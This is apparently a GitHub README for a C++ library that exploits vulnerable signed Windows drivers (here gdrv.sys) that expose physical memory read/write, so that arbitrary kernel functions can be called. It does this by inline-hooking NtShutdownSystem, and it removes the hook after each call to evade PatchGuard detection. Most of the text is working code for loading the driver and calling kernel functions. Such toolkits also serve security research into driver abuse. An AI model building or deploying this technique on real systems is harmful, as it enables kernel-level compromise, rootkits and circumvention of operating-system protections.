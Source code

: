 <div align="center">
    <div>
        <img src="https://imgur.com/7ipSZRN.png"/>
    </div>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys, and is inline hooking NtShutdownSystem. The inline hook is not patchguard friendly,
but is removed after every syscall into NtShutdownSystem to prevent possible detection.

# Example

In this example VDM syscalls into an inline hook placed on NtShutdownSystem to call memcpy exported from ntoskrnl.exe.

```cpp
	vdm::vdm_ctx vdm;	
	const auto ntoskrnl_base = 
		reinterpret_cast<void*>(
			util::get_module_base("ntoskrnl.exe"));

	const auto ntoskrnl_memcpy = 
		util::get_kernel_export("ntoskrnl.exe", "memcpy");

	std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
	std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
	std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
	std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

	short mz_bytes = 0;
	vdm.syscall<decltype(&memcpy)>(ntoskrnl_memcpy, &mz_bytes, ntoskrnl_base, sizeof mz_bytes);
	std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```



# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. 

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```
